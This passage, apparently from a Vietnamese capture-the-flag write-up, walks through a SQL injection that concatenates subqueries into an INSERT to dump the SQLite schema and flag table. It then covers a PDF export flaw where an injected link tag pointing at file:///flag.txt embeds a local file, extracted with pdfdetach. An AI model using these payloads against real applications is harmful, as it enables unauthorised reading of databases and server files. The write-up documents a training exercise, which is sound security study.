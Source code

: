 = Cấu trúc câu query nhận được:

```
INSERT INTO `note` VALUES (NULL, 23, 4, '<cai_minh_inject>', CURRENT_TIMESTAMP);
```

= Thử  sử dụng `||` để nối chuỗi với ví dụ:

```
'||(SELECT 'BC_abcabcxyzxyz')||'
```

= Lúc này truy vấn sẽ thành :

```
INSERT INTO `note` VALUES (NULL, 23, 4, ''||(SELECT 'BC_abcabcxyzxyz')||'', CURRENT_TIMESTAMP);
```

= Nó sẽ nối 2 chuỗi rỗng với kết quả SELECT. Nó sẽ trả về:
<img width="416" height="93" alt="image" src="https://github.com/user-attachments/assets/6035c795-ba1b-4c4c-80e9-c8218953840e" />

= Lấy kết cấu của database:

```
'||(SELECT group_concat(sql) FROM sqlite_sqlite_schema)||'
```

= Nó hiện ra toàn câu lệnh để tạo bằng trong database đang được sử dụng:
<img width="854" height="478" alt="image" src="https://github.com/user-attachments/assets/d0521097-7c0e-431a-807d-5876c8b81366" />

= Thấy có bảng `flag` và file `s3cr3t`:

= Khi trích xuất flag ta được:
<img width="630" height="638" alt="image" src="https://github.com/user-attachments/assets/170f60ed-cb0a-4a95-9db5-52041e200e88" />

***Flag5: Khai thác Lỗ hổng Command Injection trong chức năng Export sẽ giúp bạn lấy được FLAG cuối cùng. Hãy tìm cách đọc file /flag.txt***

= Thử nhập 1 `Submit Vulnerability` có `Proof of Concept` là:

<img width="564" height="332" alt="image" src="https://github.com/user-attachments/assets/fd2f4f67-6432-4958-bcf5-16a52b6b7e49" />

= Ấn Export thì thấy với file txt đã bị xóa mất `` và pdf thì mã hóa --la` biến thành comment.
<img width="634" height="225" alt="image" src="https://github.com/user-attachments/assets/74aee0ad-b031-46a9-8f7c-327f248c7d62" />

= Sửa thành ``ls -la`` vẫn bị mã hóa:
<img width="705" height="265" alt="image" src="https://github.com/user-attachments/assets/7ffbac5b-37b9-4677-8f48-ccb804581ccf" />

=> Nghĩa là cứ ` trong txt thì bị xóa, còn pdf thì dấu space thành -

= Chèn payload `<link rel="attachment" href="file:///flag.txt">` vào Note:
<img width="1805" height="882" alt="image" src="https://github.com/user-attachments/assets/70e858b0-3b7c-424d-a6d0-45fbedd4d36a" />

= Export ra file không bị thay đổi tên nhưng ta đã nhúng payload kia vào rồi:
<img width="786" height="310" alt="image" src="https://github.com/user-attachments/assets/38e1ff37-c161-4aeb-bcbb-d6743e48f79a" />

= Dùng `pdfdetach` để gỡ flag.txt ra:
<img width="563" height="285" alt="image" src="https://github.com/user-attachments/assets/e3de1168-f221-45e5-a471-0f3e42084220" />

= Flag là

`CHH{COMmaNd_InJeCTIOn_pdF_d020dc87bcd5ccb1eaf6c673eeef2d32}`







